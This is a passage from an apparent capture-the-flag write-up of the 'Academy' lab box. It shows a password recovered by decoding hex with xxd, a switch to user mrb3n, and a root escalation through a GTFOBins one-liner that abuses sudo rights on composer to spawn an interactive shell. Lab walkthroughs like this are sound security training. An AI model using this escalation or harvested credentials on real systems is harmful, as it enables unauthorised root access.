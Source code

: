 - Now pressing `i` we'll enter in *Insert Mode* and paste the HEX content we want to convert, right after `00000000:`.

- Press `Esc` again to return to `command mode` and type `:% !xxd -r` to return to the actual content to ASCII.

- You can later save and exit by entering the command `:wq!`  but you might have also seen the actual content of this HEX value. Below is the output of the file I've created to do this conversion:

  ```bash
  cat /tmp/test                    
  mrb3n_Ac@d3my!
  ```

As **mrb3n** is one of the other users of this box this could probably be his password, which was confirmed by running `su mrb3n` and typing the password found.

Enumerating his permissions, noticed that he's not member of any special group but has `sudo` privileges to run **composer**

```bash
mrb3n@academy:~$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
mrb3n@academy:~$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

### Abusing `sudo` permissions

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/composer/) is possible to escalate privileges by using composer running the snippet below, which worked without issues:

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

As **root**, finally obtained the flag under `/root/root.txt`

```bash
root@academy:~# id
uid=0(root) gid=0(root) groups=0(root)
root@academy:~# cat root.txt 
<redacted>
root@academy:~#
```

I hope you have enjoyed this box resolution!

See you next time! :smiley:
